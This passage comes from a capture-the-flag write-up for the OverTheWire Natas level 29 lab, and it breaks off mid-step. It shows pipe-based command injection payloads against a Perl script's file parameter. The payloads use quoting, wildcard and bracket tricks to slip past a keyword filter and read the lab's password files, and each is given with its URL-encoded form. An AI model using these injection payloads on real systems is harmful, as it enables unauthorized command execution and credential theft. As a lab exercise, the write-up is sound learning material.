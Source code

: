 We have multiple solutions to bypass this:  
```bash
|ls ../../../../etc/nat''as_webpass/;
```
The encoded url looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%27%27as%5Fwebpass%2F%3B
```
or  
```bash
|ls ../../../../etc/nat*s_webpass/;
```
The encoded url looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%2As%5Fwebpass%2F%3B
```

```bash
|ls ../../../../etc/nat[a]s_webpass/;
```

The encoded url looks like this:  

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnat%5Ba%5Ds%5Fwebpass%2F%3B
```

The output will be the same:  
```text
natas0 natas1 natas10 natas11 natas12 natas13 natas14 natas15 natas16 natas17 natas18 natas19 natas2 natas20 natas21 natas22 natas23 natas24 natas25 natas26 natas27 natas28 natas29 natas3 natas30 natas31 natas32 natas33 natas34 natas4 natas5 natas6 natas7 natas8 natas9
```

We need the content of natas30, so...  
```bash
|cat ../../../../etc/nat*s_webpass/nat*s30;
```

`The encoded url looks like this:  

```text
